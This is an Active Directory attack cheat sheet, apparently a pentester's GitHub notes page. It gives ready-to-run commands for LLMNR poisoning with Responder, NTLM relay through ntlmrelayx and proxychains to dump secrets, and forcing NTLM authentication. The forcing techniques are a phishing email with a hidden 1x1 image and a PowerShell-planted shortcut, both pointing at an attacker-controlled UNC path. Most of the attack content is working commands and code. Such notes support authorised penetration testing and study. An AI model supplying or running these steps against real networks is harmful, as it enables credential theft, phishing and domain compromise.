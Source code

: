 ```yaml
---
title: AD Attacks
category: Active Directory
order: 99
---
```


# Password Spraying

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. Patterns such as MonthYear (August2022), SeasonYear (Summer2022) and DayDate (Tuesday6) are very common.

Another pattern too common is the name of the company and the year (Corp2022)


# LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

# NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

## Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = Off
```

## Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```

# Forcing NTLM Authentication

You can try to socially engineer a privilege user to authenticate to you.

## 1x1 Images in Emails

You can send an invisible 1x1 pixel image embedded on a body of a phishing email. When the recipient view the email in their mail client, such as Outlook, it will attempt to download the image and will trigger an NTLM authentication attemp.

```
<img src="\\<attacker-ip>\image.png" height="1" width="1" />
```

> **Note**: Modify the email signature of a user, so when they send legitimate emails they will trigger NTLM authentication.

## Windows Shortcuts

A windows shortcut can have multiple properties such as directory and an icon.

We can create a icon property pointing to a UNC path and will trigger an NTLM authentication attempt when it's viewed in Explorer even if it doesn't have been clicked.

```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\smbsrv01\software\test.lnk")
$shortcut.IconLocation = "\\<attacker-ip>\test.ico"
$shortcut.Save()
```
A good location would be public readable shares.